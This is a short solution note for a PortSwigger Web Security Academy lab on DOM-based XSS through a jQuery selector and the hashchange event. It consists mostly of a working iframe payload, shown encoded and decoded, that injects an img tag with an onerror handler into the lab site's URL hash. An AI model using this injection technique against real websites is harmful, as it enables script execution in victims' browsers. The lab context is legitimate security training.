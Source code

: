 # Lab

https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-jquery-selector-hash-change-event

## Exploit

`<iframe src="https://0ad1001103c6a7f982ff43bf007a00a2.web-security-academy.net/#" onload="this.src+='%3Cimg%20src=x%20onerror=print()%3E'"/>`

URL decoded :

`<iframe src="https://0ad1001103c6a7f982ff43bf007a00a2.web-security-academy.net/#" onload="this.src+='<img src=x onerror=print()>'"/>`